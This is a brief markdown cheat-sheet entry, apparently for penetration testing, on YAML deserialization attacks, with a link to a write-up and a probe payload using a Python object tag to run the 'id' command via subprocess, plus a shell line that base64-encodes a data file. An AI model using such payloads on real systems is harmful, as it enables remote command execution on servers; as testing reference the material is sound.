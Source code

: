 # DES-Yaml
Like (LDAP-Deserialization).
- Read [DES-Yaml-Exploitation](https://www.pkmurphy.com.au/isityaml/).
- Probe use this.
	```txt
	yaml: !!python/object/apply:subprocess.check_output ['id']
	```
	```shell
	cat data.txt | base64 -w 0; echo
	```